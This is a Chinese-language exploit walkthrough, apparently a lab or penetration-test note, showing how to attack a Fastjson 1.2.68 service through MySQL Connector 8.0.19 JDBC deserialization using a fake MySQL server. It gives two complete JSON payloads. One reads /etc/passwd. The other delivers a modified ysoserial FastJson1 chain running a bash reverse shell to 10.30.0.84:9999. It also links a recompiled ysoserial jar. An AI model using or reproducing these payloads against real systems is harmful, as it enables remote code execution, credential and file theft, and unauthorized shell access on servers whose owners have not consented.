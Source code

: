 首先判断fastjson版本，1.2.68

![img](https://cdn.nlark.com/yuque/0/2023/png/26045928/1693361708315-5641ad48-7545-46d7-8836-8aac4e7122db.png)

看到在这个大版本下，首先的思路肯定是考虑文件写操作，就需要判断是否为JDK11或者存在commons-io等其他文件写入的依赖，但是该环境下都是不存在的。

![img](https://cdn.nlark.com/yuque/0/2023/png/26045928/1693361898043-07523d31-a2f9-4f7e-8b6c-e907a062660d.png)

除了文件写操作，还有一个利用更加简单且直接rce的方法：配合Mysql-JDBC反序列化打fastjson。

要求环境中存在JDBC的依赖，且对版本的要求也挺严格。 Mysql-JDBC在5、6、8下都存在相应的利用，所以就需要探测具体是什么版本。详细利用参考：[Fastjson全版本检测及利用-Poc](Fastjson全版本检测及利用-Poc.md#mysql-jdbc反序列化)

![img](https://cdn.nlark.com/yuque/0/2023/png/26045928/1693362502101-139f1c17-3dfc-464f-af32-6e35f25761fe.png)

显然这里使用的是mysql-connect-8.x

![img](https://cdn.nlark.com/yuque/0/2023/png/26045928/1693362513255-38abb596-43a1-4003-8253-8a61e9c2c013.png)

可是对于mysql-connect的版本为8下限制条件很大，只有一个版本可用：8.0.19

恰好环境是使用的8.0.19:

![img](https://cdn.nlark.com/yuque/0/2023/png/26045928/1693362734906-ce1f0b9f-ea59-437e-a1e1-67a02325259c.png)

那就好说了，先启动mysql-fake-server,用这个工具：https://github.com/fnmsd/MySQL_Fake_Server

`python3 server.py`启动mysql-fake-server：

先读文件测试漏洞是否可行：

```json
{
    "@type": "java.lang.AutoCloseable",
    "@type": "com.mysql.cj.jdbc.ha.ReplicationMySQLConnection",
    "proxy": {
        "@type": "com.mysql.cj.jdbc.ha.LoadBalancedConnectionProxy",
        "connectionUrl": {
            "@type": "com.mysql.cj.conf.url.ReplicationConnectionUrl",
            "masters": [
                {
                    "host": "10.30.0.84"
                }
            ],
            "slaves": [],
            "properties": {
                "host": "10.30.0.84",
                "user": "fileread_/etc/passwd",
                "dbname": "dbname",
                "password": "pass",
                "queryInterceptors": "com.mysql.cj.jdbc.interceptors.ServerStatusDiffInterceptor",
                "autoDeserialize": "true",
                "allowLoadLocalInfile": "true"
            }
        }
    }
}
```

成功！看来是可用的

![img](https://cdn.nlark.com/yuque/0/2023/png/26045928/1693363092287-d7b4a218-c63d-442a-9ac3-5b530f5ac1de.png)

后面就是反序列化了。

反序列化的话因为在之前说过，fastjson在全版本都存在原生反序列化，且环境依赖中并不存在其他的组件，看来只能配合原生反序列化了。

这里的话因为mysql-fake-server调用反序列化模块的原理是需要我们传入ysoserial工具然后执行命令获取数据并发送，但是在本身的ysoserial工具中并没有加入fastjson这条链的payload，所以需要在ysoserial中加入fastjson这条链。

这里是我添加FastJson1链后重新编译的ysoserial： [ysoserial-0.0.6-SNAPSHOT-all.jar](https://pan.baidu.com/s/1QQs0dH7I7UAz6r0BYzDGsg?pwd=7ji2)
当然也可以用其他师傅魔改后的ysoserial

![img](https://cdn.nlark.com/yuque/0/2023/png/26045928/1693375003333-f6be335c-9239-49fc-9baa-08d856bf804e.png)

上传到与server.py同目录即可读取。

发送数据：

```json
{
    "@type": "java.lang.AutoCloseable",
    "@type": "com.mysql.cj.jdbc.ha.ReplicationMySQLConnection",
    "proxy": {
        "@type": "com.mysql.cj.jdbc.ha.LoadBalancedConnectionProxy",
        "connectionUrl": {
            "@type": "com.mysql.cj.conf.url.ReplicationConnectionUrl",
            "masters": [
                {
                    "host": "10.30.0.84"
                }
            ],
            "slaves": [],
            "properties": {
                "host": "10.30.0.84",
                "user": "yso_FastJson1_bash -i >& /dev/tcp/10.30.0.84/9999 0>&1",
                "dbname": "dbname",
                "password": "pass",
                "queryInterceptors": "com.mysql.cj.jdbc.interceptors.ServerStatusDiffInterceptor",
                "autoDeserialize": "true",
                "allowLoadLocalInfile": "true"
            }
        }
    }
}
```

![img](https://cdn.nlark.com/yuque/0/2023/png/26045928/1693375349280-fcab912e-be6e-45dc-86cc-60a0be13a3ec.png)

反弹shell成功：


